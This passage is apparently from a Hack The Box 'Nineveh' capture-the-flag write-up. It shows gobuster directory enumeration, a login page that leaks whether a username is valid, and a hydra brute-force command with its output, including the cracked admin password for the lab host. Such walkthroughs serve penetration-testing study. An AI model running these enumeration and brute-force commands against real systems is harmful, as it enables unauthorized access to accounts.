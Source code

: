 ```python
===============================================================
/department           (Status: 301) [Size: 315] [--> http://10.10.10.43/department/]
/server-status        (Status: 403) [Size: 299]
```

## Gobuster on `https://10.10.10.43`
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh]
└──╼ # gobuster dir -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.out -t 50 -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.43
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/01 11:51:28 Starting gobuster in directory enumeration mode
===============================================================
/db                   (Status: 301) [Size: 309] [--> https://10.10.10.43/db/]
/server-status        (Status: 403) [Size: 300]                              
/secure_notes         (Status: 301) [Size: 319] [--> https://10.10.10.43/secure_notes/]
```

## Web Enumeration
We have a login page of the `http://10.10.10.43/department` which ask us for username and password.
![[Pasted image 20210701133742.png]]
It also has a weakness that it shows us whether the username is invalid or not, Something like the `wp-admin` in wordpress.

On sending the username : `admin` and the password : `admin`. We see that we get an `Invalid Password`.
![[Pasted image 20210701134231.png]]

But, On sending some junk username which does not exists. We get an `Invalid Username`.
![[Pasted image 20210701134413.png]]

This, Therefore proves that the `admin` is a valid username.
Now, We may try to bruteforce the credentials of the username admin using `hydra` and `rockyou.txt`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh]
└──╼ # hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!" -I
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-01 13:49:23
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password!
[STATUS] 1546.00 tries/min, 1546 tries in 00:01h, 14342853 to do in 154:38h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
```